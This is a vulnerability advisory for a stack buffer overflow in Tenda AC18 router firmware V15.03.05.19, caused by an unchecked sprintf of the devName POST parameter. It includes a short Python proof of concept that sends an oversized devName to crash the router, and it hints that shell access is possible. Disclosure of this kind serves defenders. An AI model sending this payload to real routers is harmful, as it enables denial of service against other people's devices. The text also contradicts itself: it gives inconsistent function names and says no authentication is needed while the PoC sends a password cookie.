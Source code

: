 ## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

Firmware download website: https://www.tenda.com.cn/download/detail-2610.html


## 2. Vulnerability details

A stack overflow vulnerability exists in the formSetClientState and  sub_C6BB0 function of the Tenda AC18 V15.03.05.19 firmware.
The formSetDeviceNam function retrieves the devName parameter from a POST request and passes its value to the sub_C6BB0 function. Within the sub_C6BB0 function, the value of the devName parameter is assigned to the local variable v5.
The sub_C6BB0 function contains a statically allocated buffer v26 with a fixed size of 256 bytes. The function formats and stores the devName parameter using the statement sprintf(&v26, "%s;1", v5). However, because the devName input is fully controlled by the user, an attacker can supply a specially crafted devName value that exceeds the capacity of the v26 buffer.
This vulnerability can be exploited remotely by an unauthenticated attacker, potentially leading to a denial-of-service (DoS).


   
   ![My Image](7.png)

## 3 POC
```python
import requests

url = 'http://IP:port/goform/formSetDeviceName"

headers = {"Cookie": "password=You cookie"}

data = {
    'serverEn': 2,
    'devName': 'l' * 10000
}
res = requests.post(url=url, headers=headers, data=data)
print(res.text)
```
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
